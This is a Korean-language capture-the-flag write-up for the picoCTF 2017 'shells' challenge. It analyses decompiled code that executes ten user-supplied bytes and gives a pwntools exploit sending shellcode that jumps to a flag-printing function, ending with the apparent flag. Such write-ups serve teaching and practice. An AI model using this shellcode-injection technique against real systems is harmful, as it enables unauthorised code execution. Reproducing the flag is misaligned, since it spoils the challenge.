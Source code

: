 `#asm`
- [Description](#Description)
- [Analysis](#Analysis)
- [Exploit code](#Exploit-code)
## Description
How much can a couple bytes do?  
Use [shells](https://webshell2017.picoctf.com/static/8e8374627189dd4e8e27ec41eed166a1/shells)!  
[Source](https://webshell2017.picoctf.com/static/8e8374627189dd4e8e27ec41eed166a1/shells.c).  
Connect on shell2017.picoctf.com:50454.  

## Analysis
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("My mother told me to never accept things from strangers");
  puts("How bad could running a couple bytes be though?");
  fflush(stdout);
  vuln();
  return 0;
}
```
main() 에는 vuln() 함수 호출하는게 전부였다.  
```
int vuln()
{
  void *buf; // [sp+Ch] [bp-Ch]@1

  buf = mmap(0, 0xAu, 7, 34, 0, 0);
  if ( buf == (void *)-1 )
  {
    puts("Failed to get space. Please talk to admin");
    exit(0);
  }
  printf("Give me %d bytes:\n", 10);
  fflush(stdout);
  if ( !read(0, buf, 0xAu) )
  {
    printf("You didn't give me anything :(");
    exit(0);
  }
  return ((int (*)(void))buf)();
}
```
vuln() 마지막 줄을 보면  
지역변수 buf 를 호출하고 있다.  
바로 여기에 초점을 맞추면 된다.  
  
그렇기 때문에 read(buf, 0xA); 에서 attack!  

```
[0x08048440]> afl
...
0x08048540    1 24           sym.win
0x08048560    5 165          sym.vuln
0x08048610    1 84           sym.main
...
```
strip 되어있지 않아  
win() 이라는 사용자정의함수가 보인다.  
```
int win()
{
  return system("/bin/cat ./flag.txt");
}
```
  
vuln() 에 있었던 지역변수 buf 는 mmap() 으로부터 주소를 받으므로  
win() 을 호출할 어셈을 read(buf,0xA); 에 넣어야 한다.  
  
```
   0:   b8 40 85 04 08          mov    eax,0x8048540
   5:   ff e0                   jmp    eax
```

## Exploit code
```
from pwn import *

r = remote('shell2017.picoctf.com', 50454)
r.recvuntil(':\n')
r.sendline('\xb8\x40\x85\x04\x08\xff\xe0')
r.interactive()
# b3b5aa513a9339475cd1054588bb70fd
```
